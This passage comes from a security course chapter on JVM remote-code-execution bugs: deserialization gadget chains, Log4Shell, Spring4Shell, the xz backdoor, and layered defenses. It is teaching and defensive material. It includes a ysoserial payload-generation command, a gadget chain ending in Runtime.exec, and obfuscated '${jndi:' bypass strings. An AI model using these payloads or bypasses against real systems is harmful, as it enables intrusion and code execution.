> **Deserialization as rebuilding IKEA furniture from instructions an attacker wrote.** When you call `readObject`, you hand the JVM a stack of assembly instructions and say "build whatever this describes." You *assume* the instructions are for the bookshelf you shipped. But the byte stream is just a set of steps, and an attacker can write a *different* set: "fetch part A (a `ChainedTransformer`), attach it to part B (a `LazyMap`), and in step 7 — where the bookshelf instructions would say 'insert shelf pin' — instead invoke `Runtime.exec`." The JVM is the diligent assembler who follows every step without ever asking "wait, why does a bookshelf need to run a shell command?" The danger isn't that your furniture is flawed; it's that *you let a stranger write the instruction booklet* and then followed it to the letter, in your own living room, before you even looked at what you'd built.

### The Serialized Stream Is a Program

A serialized stream is a typed, self-describing format. It begins with a magic number and version, then a tag-driven sequence of class descriptors and field values:

```text
Offset  Bytes        Meaning
------  -----------  ------------------------------------------
0x00    AC ED        STREAM_MAGIC   (0xACED)  ← every Java stream
0x02    00 05        STREAM_VERSION (5)
0x04    73           TC_OBJECT      (a new object follows)
0x05    72           TC_CLASSDESC   (its class descriptor)
0x06    00 11        class-name length = 17
0x08    6A 61 76 ..  "java.util.HashMap"  (UTF-8 bytes)
...     .. .. ..     serialVersionUID (8 bytes), flags, field count
...     ..           field descriptors, then field values, then
...     78           TC_ENDBLOCKDATA / nested objects (recursion)
```

`ObjectInputStream` reads these tags and *constructs whatever the bytes describe*. There is no "expected type" check by default — it will gladly build a `ChainedTransformer` if told to.

### Gadget Chains and ysoserial

A **gadget chain** strings together methods on classes *already on your classpath* so that the cascade of calls triggered by deserialization ends in `Runtime.getRuntime().exec(...)`. The canonical chain abused **Apache Commons Collections**:

```mermaid
flowchart TB
  RO["AnnotationInvocationHandler.readObject()"]
  Map["…iterates a LazyMap / TransformedMap"]
  CT["ChainedTransformer.transform()"]
  IT["InvokerTransformer chain<br/>(reflection: getRuntime → exec)"]
  Exec["Runtime.getRuntime().exec(\"calc\")"]
  RO --> Map --> CT --> IT --> Exec
```

No Commons-Collections call appears in your code — the *gadgets* are library classes, weaponized purely by the structure of the byte stream. The tool **`ysoserial`** generates ready-made payloads for dozens of gadget chains (CommonsCollections1-7, Spring1/2, Hibernate, JDK7/8 native, etc.):

```bash
# Generate a payload that runs `touch /tmp/pwned` on deserialization
$ java -jar ysoserial.jar CommonsCollections5 'touch /tmp/pwned' > payload.bin
```

Any endpoint that calls `readObject` on attacker bytes — an RMI service, a JMS message, a cached session blob, a `viewstate` field, a `T3` protocol port (the WebLogic CVEs) — is exploitable if *any* gadget chain's classes are present.

> [!WARNING]
> This is not only `java.io.ObjectInputStream`. **JSON/XML libraries with polymorphic typing are equally dangerous.** Jackson's `enableDefaultTyping()` (or `@JsonTypeInfo` with `Id.CLASS`) lets a `"@class"` field in JSON name an arbitrary class to instantiate — a long line of `jackson-databind` CVEs. Fastjson (`autoType`) and XStream had the same class of bug. The sink is "data names a type to construct," whatever the wire format.

### The Fix: Serialization Filters (JEP 290 / JEP 415)

Java 9 introduced **`ObjectInputFilter`** (JEP 290, backported to 8u121, 7u131, 6u141): a filter consulted for *every* class during deserialization, which can allowlist/blocklist by class name, limit graph depth, array sizes, and reference counts.

```java
// Allowlist only the classes you actually expect; reject everything else.
ObjectInputFilter filter = ObjectInputFilter.Config.createFilter(
    "com.myapp.dto.*;java.util.*;!*");   // last '!*' = reject all others
ois.setObjectInputFilter(filter);

// Or set a JVM-wide default:  -Djdk.serialFilter=com.myapp.**;!*
```

Java 17 added **JEP 415** (context-specific filter factories) for per-stream policies. But the real fix is architectural:

> [!IMPORTANT]
> **Do not deserialize untrusted data with Java native serialization — at all.** Prefer a schema-bound format (JSON/Protobuf/Avro) with concrete target types and *no* polymorphic auto-typing. Treat any `readObject` on a network/user boundary as a vulnerability until proven otherwise. Filters are a safety net, not a license to keep doing it.

### When Each Deserialization Defense Is the Right Tool

The defenses here are not interchangeable — each fits a different constraint:

| Defense | Use it when… | Don't rely on it when… |
|---|---|---|
| **Drop Java serialization entirely** (move to JSON/Protobuf) | You control both ends of the wire and can change the format — the *correct* long-term fix. | You're stuck talking to a legacy RMI/JMX/T3 peer you can't change. |
| **`ObjectInputFilter` allowlist (JEP 290)** | You *must* keep Java serialization (legacy protocol) but know the small set of expected classes. | You think it makes Java serialization "safe" — it's a net, not a cure; new gadget classes in expected packages still slip through. |
| **Disable Jackson default typing / allowlist subtypes** | You need polymorphism in JSON but can enumerate the legal subtypes (`@JsonSubTypes`). | The app calls `enableDefaultTyping()` "for convenience" — that is the vulnerability, full stop. |
| **JVM-wide `-Djdk.serialFilter`** | You want a backstop across an entire service without touching every call site. | It substitutes for code review — a process-wide filter can't know each stream's expected types. |

## Interlude — The Broader Supply-Chain Lesson: From Log4j to xz-utils

Step back from the JVM for a moment, because the *meta*-lesson outlives any single CVE. Log4Shell taught the industry that **you are responsible for code you never wrote, chose, or saw** — code that arrived transitively, often through a dependency of a dependency of a vendor SDK. The cure (SBOMs, SCA, transitive provenance) addresses *known-vulnerable* components. But there is a darker cousin: what if the dependency isn't *accidentally* vulnerable, but *deliberately* backdoored by someone who patiently earned your trust?

That is the **xz-utils backdoor (CVE-2024-3094, March 2024)**. A malicious maintainer spent roughly two years making legitimate contributions to the widely-used `xz`/`liblzma` compression library, building social trust until they were handed co-maintainer commit rights. They then slipped an obfuscated backdoor into the *release tarballs* (not the visible git source) that hooked into OpenSSH via systemd, aiming to allow remote unauthenticated access on countless Linux servers. It was caught almost by accident — a Microsoft engineer noticed SSH logins were ~500 ms slower and a CPU spike, and pulled the thread.



> [!WARNING]
> **Why this matters for Java engineers.** Your `pom.xml` and `build.gradle` express *the same trust model* that xz exploited: you pull artifacts from Maven Central / a registry, built by maintainers you've never met, and run their code with your application's privileges. The defenses that catch Log4j (SCA against a CVE database) **do not catch a fresh, deliberate backdoor** — there is no CVE yet, and the malicious bytes may differ from the public source. Mitigations that *do* help span build integrity, not just dependency scanning: pin and verify artifact hashes (`mvn` with checksum/signature verification, Gradle dependency verification), prefer reproducible builds, watch for unexplained build-time network calls or post-install scripts, and minimize your dependency surface so there are fewer maintainers to trust. The connective tissue between Log4Shell and xz is one sentence: **trust in dependencies is a security boundary, and most teams have never drawn it.**

## The Taxonomy, Side by Side



| CVE / class | Untrusted input | The sink reached | Result | Real fix |
|---|---|---|---|---|
| **Log4Shell** (CVE-2021-44228) | Any logged string | `JndiLookup` → JNDI → class load | RCE | Log4j ≥ 2.17.1; remove lookups |
| **Spring4Shell** (CVE-2022-22965) | Form/query params | `DataBinder` → `class.module.classLoader` | Webshell RCE | Spring ≥ 5.3.18; disallow `class.*` |
| **Commons-Collections** (2015) | Serialized bytes | `readObject` gadget chain | RCE | Serialization filters; drop Java serialization |
| **jackson-databind** (many) | JSON with `@class` | Polymorphic type → constructor | RCE | Disable default typing; allowlist subtypes |
| **Struts2 S2-045** (CVE-2017-5638) | `Content-Type` header | OGNL evaluation | RCE | Upgrade; never eval headers |

### A Timeline of JVM RCE Milestones

The same anatomy has recurred for over a decade. Seeing it on a timeline makes the point that these are not freak events — they are a *recurring genre*, and the next one is coming.

| Year | Event | Sink class | CVSS | One-line takeaway |
|---|---|---|---|---|
| **2010** | Spring binder `class.classLoader` block | Expression/binder | — | The *first* fix for what became Spring4Shell; a blocklist. |
| **2015** | Commons-Collections "deserialization apocalypse" | `readObject` gadget chain | 9.8+ | `ysoserial` made native-serialization RCE push-button. |
| **2017** | Struts2 **S2-045** (CVE-2017-5638) — Equifax breach vector | OGNL eval of a header | 10.0 | Evaluating a `Content-Type` header as code; led to a historic breach. |
| **2017** | JDK ships `trustURLCodebase=false` by default | JNDI/class load | — | Blocked the *remote-codebase* JNDI path — but not local gadgets. |
| **2017+** | `jackson-databind` polymorphic-typing CVEs (ongoing) | Polymorphic JSON type | varies | Same deserialization bug, JSON wire format, many years of patches. |
| **2021-12** | **Log4Shell** (CVE-2021-44228) + the follow-on quartet | Logged string → JNDI | 10.0 | The most widespread Java emergency ever; transitive ubiquity. |
| **2022-03** | **Spring4Shell** (CVE-2022-22965) | Form param → classLoader | 9.8 | A 2010 fix regressed because JDK 9 grew `getModule()`. |
| **2024-03** | **xz-utils backdoor** (CVE-2024-3094) | Supply-chain (deliberate) | 10.0 | Not a JVM bug — but the trust-in-dependencies lesson that ties it all together. |

> [!NOTE]
> Notice the through-line: every row is *untrusted data reaching a powerful sink*, and several are *the same bug resurfacing in a new format or after a platform change*. If you internalize the anatomy, the 2027 entry in this table — whatever its name — will be legible to you on day one.

## Defense in Depth for JVM Applications

No single control would have stopped all of these. Layer them — earlier layers reduce *whether* the input reaches a sink; later layers reduce *what damage* a reached sink can do.



1. **Software Composition Analysis (SCA) + SBOM.** You cannot patch what you don't know you ship. Generate an SBOM (CycloneDX/SPDX), scan continuously with OWASP Dependency-Check / Snyk / Trivy / `grype`, and gate CI on known-vulnerable transitive deps. This is the single highest-leverage control — see [T15](./T15-dependency-and-supply-chain-security.md).
2. **Patch velocity.** Log4Shell was a *fire drill*; the teams that survived calmly had a tested path to bump a dependency and redeploy within hours. Build that pipeline before you need it.
3. **Disable the superpower when you don't use it.** Set `-Djdk.serialFilter` / never call `enableDefaultTyping`; keep JNDI from resolving remote codebases; strip lookup plugins you don't need.
4. **Least privilege at runtime.** Run as a non-root, non-deployer user; mount the container filesystem read-only. Spring4Shell needs to *write a JSP into the web root* — deny that write and the webshell never lands. This is the zero-trust "minimize blast radius" principle from [T16](./T16-security-architecture-and-zero-trust-intro.md).
5. **Egress filtering.** Log4Shell's first step is an *outbound* LDAP/HTTP connection from your app server to the attacker. Application tiers rarely need arbitrary outbound internet; a default-deny egress policy breaks the exploit chain even on unpatched code.
6. **Detection.** Alert on `${jndi:` substrings in logs/requests, on new `.class`/`.jsp` files appearing at runtime, and on the app process spawning children (`Runtime.exec` → a Java process forking `/bin/sh` is almost always an incident).

> [!NOTE]
> A **WAF** rule blocking `${jndi:` bought time during Log4Shell, but obfuscation (`${${lower:j}ndi:…}`) bypassed naive rules within hours. Treat a WAF as an emergency speed-bump, never as the fix.

### When Each Defense Is the Right Tool (and When It Isn't)

These controls are not a menu where you pick one. They are layers, and each has a *job it's good at* and a *failure mode if you over-trust it*. Senior engineers get asked to justify the trade-offs, so be precise.

| Control | Right tool when… | NOT the right tool when… |
|---|---|---|
| **SCA + SBOM** | You need to *know what you ship* and react fast to the next disclosed CVE. The highest-leverage control overall. | You treat its "no findings" as proof of safety against an *undisclosed* bug or a deliberate backdoor (xz) — it only knows the CVE database. |
| **Egress filtering (default-deny outbound)** | The app tier has no business calling the internet — it breaks Log4Shell's *first outbound step* even on unpatched code, and contains SSRF/RCE callbacks. | The app legitimately needs broad outbound access (e.g. a webhook-dispatcher); then it's an allowlist problem, not a blanket deny. |
| **Serialization filters** | You're forced to keep Java serialization on a trust boundary and can enumerate expected classes. | You could simply *not* deserialize untrusted data — then the filter is treating a symptom. |
| **WAF (signature rules)** | You need *minutes-to-deploy* breathing room during an active 0-day before patches are tested. | You let it become the permanent fix — obfuscation defeats signatures, and it can't see already-decoded data. |
| **Least privilege + read-only FS** | You want any reached sink to do *less* damage (Spring4Shell webshell can't be written). | You skip patching because "it's contained" — containment reduces blast radius, it doesn't remove the bug. |

### Scenario: An SSRF-to-RCE Contained by Egress Filtering

A media company ran a thumbnail service that fetched images from URLs users submitted — a textbook **SSRF** primitive (the server makes a request to an attacker-chosen URL). An attacker chained it: they pointed it at the cloud metadata endpoint (`http://169.254.169.254/…`) to try to steal instance credentials, and at an internal LDAP service to attempt a JNDI-style pivot. Two layers turned a potential breach into a logged non-event:

1. **A default-deny egress policy** on the thumbnail tier allowed outbound traffic *only* to the object-store and image-CDN CIDRs. The request to `169.254.169.254` and to the internal LDAP host was simply dropped at the network layer — the SSRF had nowhere to go.
2. **Alerting on blocked egress** turned the dropped packets into a signal: a thumbnail pod attempting to reach the metadata IP is, by definition, an incident. The SOC saw it within minutes.

The lesson generalizes directly to Log4Shell: the exploit's *very first action* is an outbound connection from a tier that should never make one. **Egress filtering is the rare control that breaks both the recon step and the exploitation step of an entire CVE class, even when your code is unpatched.** It is the right tool precisely when "the app tier has no legitimate reason to dial the internet" — which is true far more often than teams assume.

> [!INTERVIEW]
> A staff-level favorite: *"Walk me through Log4Shell end to end — and tell me why patching the JDK wasn't enough."* A strong answer traces logged string → lookup substitution → JNDI → `Reference` with codebase → `URLClassLoader.defineClass` → `<clinit>` RCE, then explains the **local-gadget bypass** (BeanFactory + EL) that defeated `trustURLCodebase=false`. The follow-up is almost always: *"What's the common thread with Spring4Shell and deserialization?"* — answer: untrusted data reaching a dynamic sink (class loading / binder / `readObject`), so the durable fix is keeping data away from the sink and minimizing blast radius, not signature filtering.

## Practice

1. **Trace the mechanism.** On paper, write the full call chain Log4Shell follows from `logger.info(userInput)` to `<clinit>` running. Mark the exact point where a network connection leaves your server and where attacker bytes become a `Class`.
2. **Find it in a tree.** In any Spring Boot project, run `mvn dependency:tree` (or `gradle dependencies`) and locate `log4j-core` (or confirm it's `logback`/`log4j-to-slf4j`). Note *which* top-level dependency pulled it in — that's the supply-chain reality.
3. **Build a serialization filter.** Write a small program that deserializes a `HashMap<String,String>` but rejects everything else via an `ObjectInputFilter` allowlist; verify it throws `InvalidClassException` when fed a `ysoserial` `CommonsCollections5` payload class name. (Do this only in an isolated VM/container.)
4. **Explain the bypass.** In your own words, explain why setting `com.sun.jndi.ldap.object.trustURLCodebase=false` did *not* fully mitigate Log4Shell, and what a "local gadget" is.
5. **Least-privilege drill.** Take a Dockerized Spring app and make its filesystem read-only + run as a non-root user. Argue why this specifically defeats the Spring4Shell webshell even on a vulnerable Spring version.
6. **Egress thought-experiment.** Your app tier has no business making outbound LDAP connections. Write the network policy (conceptually) that would have broken Log4Shell's exploit chain, and explain which step it blocks.
7. **Spot the next one.** Given a code review snippet that calls `objectMapper.enableDefaultTyping()` and deserializes a request body, explain the vulnerability class and propose the fix.
8. **Hunt the IOCs.** Given a day of access logs containing `${jndi:dns://…}`, `${${lower:j}ndi:ldap://…}`, and one pod with anomalous outbound LDAP, classify each line as *recon*, *weaponized attempt*, or *successful exploitation*, and state which single signal most reliably indicates that code actually ran.
9. **Review the controller.** Take the `updateProfile(Profile form)` snippet from the Spring4Shell case study and rewrite it two ways — once with an `@InitBinder` allowlist, once by binding an immutable `record` via `@RequestBody` — and explain why the second is strictly safer.
10. **Defend the trade-off.** A teammate proposes "we'll just add a WAF rule and call Log4Shell handled." Write the three-sentence pushback a senior engineer should give, naming what a WAF *is* good for and what must still happen.
11. **Trace the transitive dependency.** Given the abridged `risk-sdk → kafka-clients → log4j-core` tree from the case study, explain why `<exclusions>` is the wrong fix, why a `<dependencyManagement>` version override is the pragmatic fix, and why a vendor ticket is the only *complete* fix.
12. **xz vs Log4j.** In two or three sentences, explain why SCA/SBOM tooling would have flagged Log4Shell but would *not* have flagged the xz-utils backdoor, and name two build-integrity controls that address the gap.

## Recap

You should now be able to:

- Describe the **shared anatomy** of JVM-specific RCE: untrusted data → a powerful dynamic sink (class loading, JNDI, `readObject`, expression-language eval) → code execution.
- Explain **class loading at the mechanism level** — `findClass` → `defineClass` → link → initialize — and why a `URLClassLoader` pointed at an attacker URL is game over.
- Trace **Log4Shell** step by step (lookup substitution → JNDI → `Reference`/codebase → remote/local class load → RCE), and explain why a patched JDK's `trustURLCodebase=false` was insufficient because of local gadgets.
- Trace **Spring4Shell** (parameter binding → `class.module.classLoader` → Tomcat `AccessLogValve` → JSP webshell), and state the conditions that made WAR-on-Tomcat exploitable while Boot fat-JARs were largely not.
- Explain **Java deserialization** RCE: how `readObject` reconstructs an arbitrary object graph, what a **gadget chain** is, how `ysoserial` weaponizes classpath classes, and that polymorphic JSON (`jackson-databind` default typing) is the same bug in a different format.
- Read the **serialized-stream byte layout** (`AC ED 00 05`, `TC_OBJECT`, `TC_CLASSDESC`) and recognize it as a self-describing program.
- Apply **defense in depth**: SCA/SBOM, patch velocity, disabling unused superpowers (serialization filters via JEP 290/415, no remote JNDI, no default typing), least privilege + read-only FS, egress filtering, and detection — and articulate why no single control suffices.
- Recognize the **indicators of compromise** for Log4Shell — `${jndi:` payloads (raw, obfuscated, and DNS-canary recon variants) in logs, anomalous outbound LDAP/RMI/DNS egress, an outbound `.class` fetch, and a JVM forking a shell — and explain why the second-order egress/process signals are higher-fidelity than payload string-matching.
- Spot a **Spring4Shell-shaped controller** in review (non-`@RequestBody` mutable POJO bound from params with no field allowlist) and remediate it with an `@InitBinder` allowlist or, better, an immutable `record` via `@RequestBody`; and explain why **blocklists rot** when the platform grows new graph edges.
- Choose **the right defense for the situation** — when SCA/SBOM, egress filtering, serialization filters, least privilege, and a WAF each *is* and *is not* the correct tool — rather than treating them as interchangeable.
- Connect Log4Shell to the broader **trust-in-dependencies** lesson, contrasting an *accidentally* vulnerable component (caught by SCA) with the *deliberately* backdoored **xz-utils** (CVE-2024-3094, caught only by build-integrity and anomaly hunting), and name controls that close the gap.
- Walk the **transitive-dependency reality** — why `log4j-core` arrives four layers deep under a vendor SDK, why `<exclusions>` breaks logging, why a version override is the pragmatic fix, and why some fixes can only come from the upstream maintainer.

## Next

The next genuinely-new Phase 3 topic is **modern authentication** — OAuth 2.1, FIDO2, WebAuthn, and passkeys — extending [OAuth2 & OpenID Connect (T03)](./T03-oauth2-and-openid-connect.md) into phishing-resistant, passwordless flows. Then **container security** (distroless, Wolfi, image signing with Sigstore/cosign), which operationalizes the "least privilege + minimal attack surface" defenses introduced here. See also [Dependency & supply-chain security (T15)](./T15-dependency-and-supply-chain-security.md) for how the vulnerable code arrives in the first place, and [Security architecture & zero trust (T16)](./T16-security-architecture-and-zero-trust-intro.md) for the blast-radius minimization that turns an RCE into a contained incident.
